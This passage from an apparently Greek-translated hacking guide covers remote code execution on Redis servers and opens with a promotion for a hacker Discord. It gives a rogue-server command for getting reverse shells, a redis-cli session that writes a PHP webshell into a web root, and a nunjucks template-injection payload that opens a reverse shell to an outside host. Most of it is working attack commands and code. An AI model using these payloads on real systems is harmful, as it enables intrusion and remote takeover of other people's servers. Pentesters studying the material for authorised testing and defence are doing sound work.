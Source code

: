 Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## Redis RCE

### Interactive Shell

[**redis-rogue-server**](https://github.com/n0b0dyCN/redis-rogue-server) μπορεί αυτόματα να αποκτήσει ένα διαδραστικό shell ή ένα reverse shell στο Redis(<=5.0.5).
```
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>
```
### PHP Webshell

Πληροφορίες από [**εδώ**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). Πρέπει να γνωρίζετε το **μονοπάτι** του **φακέλου της ιστοσελίδας**:
```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK
```
​Αν η εξαίρεση πρόσβασης webshell, μπορείτε να αδειάσετε τη βάση δεδομένων μετά από αντίγραφο ασφαλείας και να δοκιμάσετε ξανά, θυμηθείτε να αποκαταστήσετε τη βάση δεδομένων.

### Template Webshell

Όπως στην προηγούμενη ενότητα, μπορείτε επίσης να αντικαταστήσετε κάποιο αρχείο html template που θα ερμηνευτεί από μια μηχανή template και να αποκτήσετε ένα shell.

Για παράδειγμα, ακολουθώντας [**αυτή την αναφορά**](https://www.neteye-blog.com/2022/05/cyber-apocalypse-ctf-2022-red-island-writeup/), μπορείτε να δείτε ότι ο επιτιθέμενος εισήγαγε ένα **rev shell σε ένα html** που ερμηνεύεται από τη **μηχανή template nunjucks:**
```javascript
{{ ({}).constructor.constructor(
"var net = global.process.mainModule.require('net'),
cp = global.process.mainModule.require('child_process'),
sh = cp.spawn('sh', []);
var client = new net.Socket();
client.connect(1234, 'my-server.com', function(){
client.pipe(sh.stdin);
sh.stdout.pipe(client);
sh.stderr.pipe(client);
});"
)()}}
```
{% hint style="warning" %}